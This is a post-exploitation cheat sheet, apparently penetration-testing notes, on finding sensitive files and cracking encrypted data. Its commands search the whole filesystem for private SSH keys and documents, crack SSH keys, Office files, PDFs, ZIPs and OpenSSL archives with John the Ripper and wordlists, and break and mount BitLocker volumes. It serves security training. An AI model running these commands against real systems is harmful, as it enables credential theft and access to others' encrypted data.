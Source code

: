 ```yaml
---
title: File Hunting and Encrypted Data Attacks
category: Post-Exploitation
tags: [file-hunting, encrypted, john, hashcat, bitlocker]
tools: ['ssh2john', 'office2john', 'pdf2john', 'zip2john', 'bitlocker2john', 'openssl', 'dislocker']
---
```


# File Hunting and Encrypted Data Attacks

Techniques for locating sensitive files and attacking encrypted data such as SSH keys, documents, archives, and drives.

---

## Hunting for Encrypted Files

Use `find` and `grep` to identify files that may contain secrets.

```bash
# Search for common encrypted file extensions
for ext in $(echo ".xls .xls* .xltx .od* .doc .doc* .pdf .pot .pot* .pp*"); do
  echo -e "\nFile extension: $ext"
  find / -name *$ext 2>/dev/null | grep -v "lib\|fonts\|share\|core"
done

# Search for SSH keys by header
grep -rnE '^\-{5}BEGIN [A-Z0-9]+ PRIVATE KEY\-{5}$' /* 2>/dev/null

# Check if an SSH key is encrypted
ssh-keygen -yf ~/.ssh/id_ed25519
```

---

## Cracking Encrypted SSH Keys

```bash
ssh2john.py SSH.private > ssh.hash
john --wordlist=rockyou.txt ssh.hash
john ssh.hash --show
```

---

## Password-Protected Documents

```bash
# Office documents
office2john.py Protected.docx > protected-docx.hash
john --wordlist=rockyou.txt protected-docx.hash
john protected-docx.hash --show

# PDF files
pdf2john.py PDF.pdf > pdf.hash
```

---

## Protected Archives

```bash
# Convert ZIP to hash
zip2john ZIP.zip > zip.hash
john --wordlist=rockyou.txt zip.hash
john zip.hash --show
```

```bash
# Crack OpenSSL encrypted GZIP files
file GZIP.gzip
# GZIP.gzip: openssl enc'd data with salted password

for i in $(cat rockyou.txt); do
  openssl enc -aes-256-cbc -d -in GZIP.gzip -k $i 2>/dev/null | tar xz
done
```

---

## BitLocker-Encrypted Drives

```bash
# Extract BitLocker hash
bitlocker2john -i Backup.vhd > backup.hashes
grep "bitlocker\$0" backup.hashes > backup.hash

# Crack with hashcat
hashcat -a 0 -m 22100 backup.hash /usr/share/wordlists/rockyou.txt
```

### Mounting BitLocker in Linux

```bash
# Install dislocker
sudo apt-get install dislocker

# Prepare folders
sudo mkdir -p /media/bitlocker /media/bitlockermount

# Map VHD to loop device and decrypt with dislocker
sudo losetup -f -P Backup.vhd
sudo dislocker /dev/loop0p2 -u<PASSWD> -- /media/bitlocker

# Mount and unmount
sudo mount -o loop /media/bitlocker/dislocker-file /media/bitlockermount
sudo umount /media/bitlockermount
sudo umount /media/bitlocker
```
